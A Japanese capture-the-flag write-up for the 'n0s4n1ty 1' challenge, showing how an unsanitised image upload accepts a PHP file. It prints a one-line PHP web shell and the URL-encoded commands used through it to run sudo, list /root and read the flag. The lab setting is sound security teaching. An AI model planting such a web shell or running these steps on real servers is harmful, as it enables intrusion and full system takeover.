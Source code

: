 ## n0s4n1ty 1

### Description  
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.


要約すると、  
写真をアップロードできるwebサイトに欠陥があるよ。  
**/root**ディレクトリ内に隠されているFlagを探して！！

---
早速、webサイトにアクセスする。  
下のようなwebサイトが開く。

![](./n0s4n1ty1.png)

ファイルを適当に、アップする。  
どうやら、サニタイズをしていない。  
jpeg/pngだけでなく、phpもアップできる。 

test.phpファイルをアップすると、どうやら、uploadsフォルダに置かれたようだ。
> The file test.php has been uploaded Path: uploads/test.php

phpファイルをアップロードできるので、以下のスクリプトをアップロードする。
```php
<?php system($_GET["cmd"]);?>
```

その後、url欄の`upload.php`を消して、`uploads/test.php?cmd=sudo%20-l`に置き換える。

実行結果
```
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL
```

だいたいのコマンドは実行できそう。
`ls /root` を実行する
`cmd=sudo%20-l`を`cmd=sudo%20ls%20/root`にする

実行結果
```
flag.txt
```

cat して中身を見ればFlagがゲットできそう。

`cmd=sudo%20ls%20/root`を`cmd=sudo%20cat%20/root/flag.txt`

実行後、Flagゲット